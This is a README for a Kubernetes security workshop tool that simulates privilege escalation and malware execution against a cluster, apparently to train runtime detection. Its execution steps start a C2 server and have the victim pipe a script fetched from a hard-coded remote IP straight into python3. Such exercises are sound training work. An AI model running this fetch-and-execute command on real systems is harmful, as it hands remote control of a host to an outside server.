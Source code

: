 # k8s-runtime-sec

CLI for simulating malicious behaviors in Kubernetes clusters Includes two security incident scenarios related to privilege escalation and malware execution, designed to raise awareness about runtime security.


<p align="center">
  <img src="diagram.png" width="500"/>
</p>

## Requirements

Golang 1.21 or newer and Python 3.7 or later are required.


## Installation


**In Kubernetes node**

    kubectl apply -f k8s/victim-workshop.yaml

**In Containers**

    docker run -it --name falco-workshop -h training diegoall1990/falco-workshop:tagname (Cooming soon)


## Execution


* In C2 Server (Google Compute Engine) execute:

        go run main.go



* In victim machine execute:


        curl -sL http://34.27.180.215:8080/sitio/vuelta.txt | python3


> pipe execution

